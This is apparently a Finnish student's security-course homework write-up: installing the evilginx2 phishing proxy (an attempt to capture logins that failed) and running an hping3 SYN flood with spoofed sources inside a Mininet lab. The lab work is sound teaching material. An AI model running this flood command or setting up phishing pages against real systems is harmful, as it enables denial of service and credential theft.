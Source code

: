 ## h5 kotitehtävät 

# a) Tutustu seuraavaan työkaluun https://github.com/kgretzky/evilginx2Vastaa seuraaviin kysymyksiin: Asensitko työkalun, jos asensit niin kirjoita miten sen teit .Mitä teit työkalun kanssa? Onnistuitko huijaamaan liikennettä

Aloitin lataamalla evilginx2 kalille:

    sudo apt-get install evilginx2


![image](https://github.com/user-attachments/assets/9dc6392e-a99f-4015-9a95-2e0ceb0fad2a)

Ohjelman avaaminen 

    sudo evilginx2


![2](https://github.com/user-attachments/assets/a10f2cdf-8a82-445c-ab01-466dbd11df05)

lähdin etsimään miten evilginx2 voi testata paikallisesti löysin videon https://www.youtube.com/watch?v=z5gLXmXIyH8&t=2s&ab_channel=Cybertech-Arena ja https://www.youtube.com/watch?v=sZ22YulJwao&t=2s&ab_channel=JohnHammond


Yritin luoda huijaus sivuston jonka kautta olisin saanut esim. kirjautumis tietoja mutta en saanut sitä toimimaan.



# b) Luo ympäristö, jossa voit tehdä TCP SYN-Flood hyökkäyksen.
Kirjoita miten loit mininet ympäristön ja miten toteutit hyökkäyksen.

Asensin mininetin kalilleni:

        sudo apt install mininet hping3 xterm python3

Tämän jälkeen käynnistin sen:

        sudo mn --topo single,3 --mac --switch ovsk --controller remote

Sain erroria openvswitchistä jonka jälkeen asensin sen uudelleen ja laitoin päälle:

![1](https://github.com/user-attachments/assets/fc7685ab-b3d8-4584-b2d9-05d7b8c318a1)

        sudo apt install openvswitch-switch
        sudo service openvswitch-switch start

Tämän jälkeen avataan xtermillä h1-h3


![term](https://github.com/user-attachments/assets/c927f203-e3cc-49f1-a7ba-cdf4fddf43e6)


avataan http palvelin h2 : 

![image](https://github.com/user-attachments/assets/0791f9e3-e31e-4dd3-830a-4b95bd2fd221)



käynnistetään hyökkäys h1:stä h2:seen : 

    hping3 -S --flood --rand-source -p 80 10.0.0.2        

![image](https://github.com/user-attachments/assets/033d44d2-985f-462b-af2f-b57ec2dbb578)



References:

https://github.com/yudasm/WHfB-o365-Phishlet

https://www.youtube.com/watch?v=sZ22YulJwao&t=2s&ab_channel=JohnHammond

https://www.youtube.com/watch?v=z5gLXmXIyH8&t=2s&ab_channel=Cybertech-Arena
